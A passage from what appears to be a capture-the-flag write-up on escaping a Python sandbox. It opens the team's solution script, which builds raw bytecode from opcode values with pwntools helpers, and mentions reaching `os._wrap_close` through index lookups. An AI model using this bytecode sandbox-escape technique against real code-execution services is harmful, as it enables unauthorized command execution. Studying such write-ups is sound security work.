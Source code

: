 ```python
{}[f"{sub}"]
```

After correcting the index values for `os._wrap_close` and
`operator.attrgetter`, we finally got the flag.

Here is our complete solution script:

```python
from pwn import *
from opcode import opmap, cmp_op
import os


def gen_None():
    return \
        bytes([opmap["BUILD_LIST"], 0]) + \
        get_class() + \
        get_dict() + \
        gen_string("clear") + \
        bytes([opmap["BINARY_SUBSCR"], 0]) + \
        bytes([opmap["BUILD_LIST"], 0]) + \
        call_function(1)


def gen_return():
    return bytes([opmap["RETURN_VALUE"], 0])


def get_class():
    return bytes([opmap["LOAD_ATTR"], 0])


def get_dict():
    return bytes([opmap["LOAD_ATTR"], 1])


def gen_true():
    return \
        gen_empty_str() + \
        gen_empty_str() + \
        bytes([opmap["COMPARE_OP"], cmp_op.index("==")])


def gen_false():
    return \
        gen_empty_str() + \
        gen_empty_str() + \
        bytes([opmap["COMPARE_OP"], cmp_op.index("!=")])


def gen_zero():
    return \
        gen_false() + \
        gen_false() + \
        bytes([opmap["BINARY_ADD"], 0])


def gen_one():
    return \
        gen_true() + \
        gen_false() + \
        bytes([opmap["BINARY_ADD"], 0])

```